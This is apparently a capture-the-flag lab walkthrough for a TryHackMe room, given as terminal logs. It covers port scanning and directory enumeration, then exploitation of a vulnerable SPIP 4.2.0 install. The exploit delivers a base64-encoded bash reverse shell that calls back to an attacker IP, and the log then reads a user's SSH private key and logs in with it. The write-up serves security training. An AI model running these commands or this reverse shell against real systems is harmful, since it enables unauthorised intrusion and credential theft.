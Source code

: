 <code>
https://tryhackme.com/r/room/publisher

┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ nmap -sV -Pn 10.10.188.239
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-16 03:07 CDT
Nmap scan report for 10.10.188.239
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ nmap -A -Pn -p80 10.10.188.239
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-16 03:08 CDT
Nmap scan report for 10.10.188.239
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.38 seconds



                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ nikto  -h http://publisher.thm                 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.188.239
+ Target Hostname:    publisher.thm
+ Target Port:        80
+ Start Time:         2024-07-16 04:18:58 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ RFC-1918 IP address found in the 'location' header. The IP is "172.17.0.2".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "172.17.0.2".
+ Server may leak inodes via ETags, header found with file /, inode: 21ee, size: 60cf5aa5ef7f4, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3268: /images/: Directory indexing found.
^[[21~+ 7785 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2024-07-16 04:25:15 (GMT-5) (377 seconds)


┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://publisher.thm -x .txt,.php,html        
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
2024/07/16 03:17:49 Starting gobuster in directory enumeration mode
/images               (Status: 301) [Size: 315] [--> http://publisher.thm/images/]
/index.html           (Status: 200) [Size: 8686]                                  
/spip                 (Status: 301) [Size: 313] [--> http://publisher.thm/spip/]  
/server-status        (Status: 403) [Size: 278]                                   
                                                        


### SPIP 4.2.0 - vulnable

http://publisher.thm/spip/spip.php?page=backend
http://publisher.thm/spip/spip.php?rubrique1
http://publisher.thm/spip/spip.php?page=contact

http://publisher.thm/spip/spip.php?page=login&url=%2Fspip%2Fecrire%2F&lang=fr


### Initial access
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ python3 51536.py -u http://publisher.thm/spip -c whoami
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ echo -n "bash -i >& /dev/tcp/10.9.30.202/6666 0>&1" | base64 -w0 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjMwLjIwMi82NjY2IDA+JjE=                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ python3 51536.py -u http://publisher.thm/spip -c "whoami"       
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ python3 51536.py -u http://publisher.thm/spip -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjMwLjIwMi82NjY2IDA+JjE= 
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ python3 51536.py -u http://publisher.thm/spip -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjMwLjIwMi82NjY2IDA+JjE= | base64 -d | bash"

### Recoon get Think user key
www-data@41c976e507f8:/home/think/.ssh$ ls
ls
authorized_keys
id_rsa
id_rsa.pub
www-data@41c976e507f8:/home/think/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn

###  SSH access as Think
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ chmod 400 think   
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Publisher]
└─$ ssh -i think think@publisher.thm




</code>

